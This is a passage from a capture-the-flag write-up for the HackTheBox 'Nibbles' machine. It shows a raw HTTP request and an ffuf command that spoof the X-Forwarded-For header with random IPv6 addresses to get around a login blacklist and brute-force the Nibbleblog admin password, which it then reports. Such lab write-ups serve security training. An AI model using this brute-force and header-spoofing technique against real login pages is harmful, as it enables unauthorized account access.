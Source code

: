 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ python gen_ipv6.py 2206
Appended 2206 ips to rnd_ipv6.txt
```


#### Brute force via ffuf

> `login_blacklist_bypass.req`

```http
POST /nibbleblog/admin.php HTTP/1.1
Host: nibbles.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://nibbles.htb
X-Forwarded-For : FUZZ1
Connection: close
Referer: http://nibbles.htb/nibbleblog/admin.php
Cookie: PHPSESSID=7hhg29abtivtrttjqnu82ic4f3
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

username=admin&password=FUZZ2
```

- Use `pitchfork` mode instead of the default `clusterbomb` mode

```bash
┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ ffuf -c -request login_blacklist_bypass.req -request-proto http -w ./rnd_ipv6.txt:FUZZ1 -w ./passwords_best64_duplicut.txt:FUZZ2 -r -fs 1541 -mode pitchfork
```

![](/assets/obsidian/9b81ff2cf24ef2873d86bdf32a2532db.png)

> Got password : `nibbles`
{: .prompt-tip }


#### Exploit

> **After login**
> I can see all those flailed login attempts, brute forcing should always be the last resort in real engagements
{: .prompt-warning }
